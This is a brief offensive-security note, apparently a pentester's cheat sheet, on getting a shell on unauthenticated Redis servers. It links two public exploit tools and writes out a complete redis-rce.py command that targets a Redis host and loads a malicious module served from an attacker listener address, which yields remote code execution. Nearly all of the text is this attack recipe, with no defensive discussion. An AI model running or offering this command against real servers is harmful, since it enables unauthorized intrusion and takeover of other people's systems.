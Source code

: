 #### ++ INFO ++
-> In Redis we can get a shell with this two exploits:
		- https://github.com/Ridter/redis-rce
		- https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
-> After make the file from the second repository, execute this command:
	`python3 redis-rce.py -r 192.168.220.69 -p 6379 -L 192.168.45.164 -P 6379 -f RedisModules-ExecuteCommand/module.so`
	
#### ++ Redis RCE through no credentials access ++
	Redacted before